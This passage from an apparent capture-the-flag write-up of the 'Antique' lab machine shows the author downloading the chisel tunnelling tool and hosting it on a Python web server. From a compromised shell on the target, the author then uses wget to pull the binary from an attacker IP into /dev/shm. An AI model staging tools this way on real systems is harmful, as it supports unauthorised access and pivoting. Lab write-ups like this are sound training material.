     oxdf@hacky$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
    --2022-05-02 13:21:41--  https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
    Resolving github.com (github.com)... 140.82.113.4
    Connecting to github.com (github.com)|140.82.113.4|:443... connected.
    HTTP request sent, awaiting response... 302 Found
    Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/31311037/ba3e7fe5-01fc-4b0c-b8eb-1b3a4c8eb61f?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220502%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220502T132141Z&X-Amz-Expires=300&X-Amz-Signature=71b61999ecaa294c3b7dec1489e6b6ffb2d943a271184c0de349c018c0f92cad&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=31311037&response-content-disposition=attachment%3B%20filename%3Dchisel_1.7.7_linux_amd64.gz&response-content-type=application%2Foctet-stream [following]
    --2022-05-02 13:21:41--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/31311037/ba3e7fe5-01fc-4b0c-b8eb-1b3a4c8eb61f?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20220502%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20220502T132141Z&X-Amz-Expires=300&X-Amz-Signature=71b61999ecaa294c3b7dec1489e6b6ffb2d943a271184c0de349c018c0f92cad&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=31311037&response-content-disposition=attachment%3B%20filename%3Dchisel_1.7.7_linux_amd64.gz&response-content-type=application%2Foctet-stream
    Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.110.133, 185.199.108.133, ...
    Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 3234355 (3.1M) [application/octet-stream]
    Saving to: ‘chisel_1.7.7_linux_amd64.gz’
    
    chisel_1.7.7_linux_amd64.gz                                                     100%[====================================================================================================================================================================================================>]   3.08M  9.65MB/s    in 0.3s    
    
    2022-05-02 13:21:41 (9.65 MB/s) - ‘chisel_1.7.7_linux_amd64.gz’ saved [3234355/3234355]
    oxdf@hacky$ gunzip chisel_1.7.7_linux_amd64.gz 
    oxdf@hacky$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

From Antique, I’ll fetch the binary:

    
    
    lp@antique:/dev/shm$ wget 10.10.14.6/chisel_1.7.7_linux_amd64              
    wget 10.10.14.6/chisel_1.7.7_linux_amd64                                   
    --2022-05-02 13:23:19--  http://10.10.14.6/chisel_1.7.7_linux_amd64        
    Connecting to 10.10.14.6:80... connected.                                  
    HTTP request sent, awaiting response... 200 OK                             
    Length: 8077312 (7.7M) [application/octet-stream]                            
    Saving to: ‘chisel_1.7.7_linux_amd64’                                      
    
         0K .......... .......... .......... .......... ..........  0%  268K 29s
    ...[snip]...
      7800K .......... .......... .......... .......... .......... 99% 2.52M 0s
      7850K .......... .......... .......... ........             100% 1.37M=2.8s
    